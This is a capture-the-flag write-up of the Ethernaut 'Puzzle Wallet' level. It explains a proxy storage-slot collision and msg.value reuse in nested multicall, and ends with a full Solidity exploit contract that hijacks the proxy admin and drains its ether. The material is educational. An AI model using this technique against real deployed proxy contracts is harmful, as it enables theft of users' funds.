

## Challenge
### Description
Nowadays, paying for DeFi operations is impossible, fact.
A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it.
To do so, they voted and assigned two people with special roles in the system:
The admin, which has the power of updating the logic of the smart contract.
The owner, which controls the whitelist of addresses allowed to use the contract.
The contracts were deployed, and the group was whitelisted.
Everyone cheered for their accomplishments against evil miners.
Little did they know, their lunch money was at risk...
You'll need to hijack this wallet to become the admin of the proxy.
Things that might help:
Understanding how delegatecall works and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
## Background

---

`PuzzleProxy` inherits from `UpgradeableProxy`. The challenge code only shows the import, so the actual behavior is in the helper code.
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/proxy/Proxy.sol";
import "openzeppelin-contracts-08/utils/Address.sol";

contract UpgradeableProxy is Proxy {
    constructor(address _logic, bytes memory _data) {
        assert(_IMPLEMENTATION_SLOT == bytes32(uint256(keccak256("eip1967.proxy.implementation")) - 1));
        _setImplementation(_logic);
        if (_data.length > 0) {
            (bool success,) = _logic.delegatecall(_data);
            require(success);
        }
    }

    event Upgraded(address indexed implementation);

    bytes32 private constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function _implementation() internal view override returns (address impl) {
        bytes32 slot = _IMPLEMENTATION_SLOT;
        assembly {
            impl := sload(slot)
        }
    }

    function _upgradeTo(address newImplementation) internal {
        _setImplementation(newImplementation);
        emit Upgraded(newImplementation);
    }

    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "UpgradeableProxy: new implementation is not a contract");
        bytes32 slot = _IMPLEMENTATION_SLOT;
        assembly {
            sstore(slot, newImplementation)
        }
    }
}
```
[https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/src/helpers/UpgradeableProxy-08.sol](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/src/helpers/UpgradeableProxy-08.sol)
`UpgradeableProxy` stores the implementation address in the EIP-1967 slot. So the implementation address itself does not collide with the usual slot0 and slot1. But `pendingAdmin` and `admin`, declared directly by `PuzzleProxy`, sit in slot0 and slot1.

---

`Proxy` performs a `delegatecall` to the implementation in its fallback.
```solidity
abstract contract Proxy {
    function _delegate(address implementation) internal virtual {
        assembly {
            calldatacopy(0x00, 0x00, calldatasize())
            let result := delegatecall(gas(), implementation, 0x00, calldatasize(), 0x00, 0x00)
            returndatacopy(0x00, 0x00, returndatasize())

            switch result
            case 0 {
                revert(0x00, returndatasize())
            }
            default {
                return(0x00, returndatasize())
            }
        }
    }

    function _implementation() internal view virtual returns (address);

    function _fallback() internal virtual {
        _delegate(_implementation());
    }

    fallback() external payable virtual {
        _fallback();
    }
}
```
[https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/Proxy.sol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/Proxy.sol)
If you send a `PuzzleWallet` function selector to the proxy address, the proxy does not have that function, so the fallback runs and the implementation `PuzzleWallet` code is executed via `delegatecall`.
`delegatecall` borrows only the code and uses the calling contract's storage. So even when the `PuzzleWallet` code runs, the storage it actually reads and writes is `PuzzleProxy`'s storage.

---

With `delegatecall`, `msg.sender` and `msg.value` keep the values of the outer call. These values are used in two places in this challenge.
First, even when you call a wallet function through the proxy, `msg.sender` stays the attacker address. So a check like `msg.sender == owner` in `addToWhitelist` checks the attacker against the `owner` value in the proxy's storage.
Also, the same `msg.value` is preserved in `address(this).delegatecall(data[i])` inside `multicall`. Because of this, even though ether is sent only once, running `deposit` multiple times inside a nested `multicall` can increase the internal accounting `balances[msg.sender]` beyond the actual deposit amount.

---

The front of the storage layouts of `PuzzleProxy` and `PuzzleWallet`:
```solidity
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin; // slot0
    address public admin;        // slot1
}

contract PuzzleWallet {
    address public owner;        // slot0
    uint256 public maxBalance;   // slot1
}
```
When wallet code runs through the proxy, `PuzzleWallet.owner` reads the proxy's slot0 and `PuzzleWallet.maxBalance` reads the proxy's slot1. So the variables overlap like this:
- `pendingAdmin` ↔ `owner`
- `admin` ↔ `maxBalance`

The challenge goal is to change the proxy's `admin` to the player address. Since the wallet's `setMaxBalance(uint256 _maxBalance)` writes `maxBalance`, if you can call this function through the proxy you can overwrite the proxy's `admin` in slot1.
## Code analysis

---

First, the `owner` hijack path:
```solidity
function proposeNewAdmin(address _newAdmin) external {
    pendingAdmin = _newAdmin;
}

function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
}
```
`proposeNewAdmin` can be called by anyone and changes the proxy's `pendingAdmin`. But this value is in slot0, the same as the wallet-view `owner`.
So if you call `proposeNewAdmin(attacker)` on the proxy, then when wallet code runs through the proxy it sees `owner == attacker`. After that, calling `addToWhitelist(attacker)` passes the `msg.sender == owner` check and registers the attacker in the whitelist.

---

Next, the function that overwrites `admin`:
```solidity
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
}
```
`setMaxBalance` changes the wallet's `maxBalance`, but when called through the proxy it writes the proxy's slot1, which is the proxy's `admin`.
So if you pass `uint256(uint160(player))` as `_maxBalance`, the proxy's `admin` is changed to the `player` address.
The caller must be whitelisted, though, and the proxy's ether balance must be 0. The whitelist was solved above, so the remaining problem is draining the 0.001 ether held in the contract.

---

Next, the duplicate deposit in `multicall`:
```solidity
function deposit() external payable onlyWhitelisted {
    require(address(this).balance <= maxBalance, "Max balance reached");
    balances[msg.sender] += msg.value;
}

function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            depositCalled = true;
        }
        (bool success,) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```
`multicall` blocks the `deposit` selector from being passed in directly twice within the same call, but it tracks this with `depositCalled`, a local variable of the current `multicall`.
If you call `deposit()` once in the outer `multicall` and put a nested `multicall([deposit()])` as another element, the inner call has its own new `depositCalled`. So from each `multicall`'s perspective it looks like `deposit` was called only once.
The problem is that both are `delegatecall`, so they see the same `msg.value`. For example, if you send `0.001 ether` and `deposit` runs twice, the actual proxy balance increases by only `0.001 ether`, but `balances[attacker]` increases by `0.002 ether`.

---

Finally, emptying the balance with `execute`:
```solidity
function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
    require(balances[msg.sender] >= value, "Insufficient balance");
    balances[msg.sender] -= value;
    (bool success,) = to.call{value: value}(data);
    require(success, "Execution failed");
}
```
`execute` transfers actual ether as long as the internal accounting `balances[msg.sender]` is sufficient. If you inflate `balances[attacker]` above the actual deposit with a nested `multicall`, you can drain the existing ether the contract was holding along with it.
An Ethernaut instance usually holds `0.001 ether`. If the attacker sends `0.001 ether` and gets `deposit` reflected twice, `balances[attacker] == 0.002 ether`. Then draining `0.002 ether` with `execute` brings the proxy's ether balance to 0 and satisfies the condition in `setMaxBalance`.
## Solution
First, overwrite slot0 with `proposeNewAdmin(address(this))` so that the wallet-view `owner` becomes the attack contract. In that state, call `addToWhitelist(address(this))` to pass the whitelist condition.
Next, nest `multicall` so that a `0.001 ether` deposit increases `balances[address(this)]` by `0.002 ether`. Drain `0.002 ether` with `execute` to bring the proxy balance to 0.
Finally, call `setMaxBalance(uint256(uint160(msg.sender)))`. In the proxy's storage this writes slot1, i.e. `admin`, instead of the wallet's `maxBalance`, so the proxy's `admin` becomes the player address.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IProxy {
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function multicall(bytes[] calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
}

contract Attack {
    IProxy proxy;

    constructor(address _addr) payable {
        proxy = IProxy(_addr);
    }

    function attack() public {
        proxy.proposeNewAdmin(address(this));
        proxy.addToWhitelist(address(this));

        bytes[] memory deposit = new bytes[](1);
        deposit[0] = abi.encodeWithSelector(proxy.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = abi.encodeWithSelector(proxy.deposit.selector);
        data[1] = abi.encodeWithSelector(proxy.multicall.selector, deposit);

        proxy.multicall{value: 0.001 ether}(data);
        proxy.execute(msg.sender, 0.002 ether, "");
        proxy.setMaxBalance(uint256(uint160(msg.sender)));
    }
}
```

